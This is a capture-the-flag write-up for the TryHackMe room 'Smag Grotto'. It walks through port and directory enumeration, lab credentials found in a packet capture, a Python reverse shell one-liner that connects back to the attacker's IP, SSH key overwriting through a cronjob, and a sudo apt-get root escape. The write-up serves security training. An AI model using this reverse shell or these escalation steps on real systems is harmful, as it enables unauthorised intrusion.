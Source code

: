 # [Smag Grotto](https://tryhackme.com/room/smaggrotto)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Smag Grotto |
| Difficulty | East |
| Tags | Wireshark |

---

## Index
- [Enumeration](#enumeration)
- [Reverse Shell](#reverse-shell)
- [Priviledge Escalation](#priviledge-escalation)

---

```bash
export IP=10.10.94.23
```

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 ssh
80 http
```

Now enumerating the website with:

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt
```

We notice a strange directory `/mail/` which has a wireshark capture file that is downloadable for us to explore.
Analysing the packet we notice two major things.
* Firstly, a hostname `development.smag.thm`
* Secondly, user credentials with which to login with

`helpdesk:cH4nG3M3_n0w`

Adding the hostname to `/etc/hosts` and using those credentials to login with, and are greeted with a splash page with the ability to send commands.

![splashpage](https://user-images.githubusercontent.com/87711310/209357716-5e65d1d2-437e-475c-af50-7dc8b6b2a574.png)


Initially, I tried `whoami` and `ls` but no output was returned. I then opened tcpdump.

```bash
$ tcpdump -i utun1 icmp
```

And I could receive pings! But I couldn't access the commands anymore and it was stuck pinging me. So after restarting the machine I set about creating a reverse shell with which I could access the box.

### Reverse Shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I now had a shell to access the machine with and we can begin enumerating the machine to escalate priviledges. I kicked off with good old linpeas.
It quickly found a cronjob which would concatenate a backup of jake's public ssh key to his `.ssh/` folder. We can generate a new ssh key pair and overwrite the public one with ours and log in with our newly generated ssh key

```bash
$ ssh-keygen -f jake
```

### Priviledge Escalation

And now we wait for the cronjob to overwrite the file...
And one minute of waiting later, we can now login in as jake! And grab the user flag too.

Now we check for sudo permissions and notice that we can `sudo apt-get` without need of a password. 

![sudo_perms](https://user-images.githubusercontent.com/87711310/209357717-c382e2c6-0449-4c52-988f-1dd24bdbe34c.png)


Consulting gtfobins, we can run:

```bash
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

To escalate priviledges! And nab the root flag!

And we are _**done!**_

Enjoyable and straight-forward room.

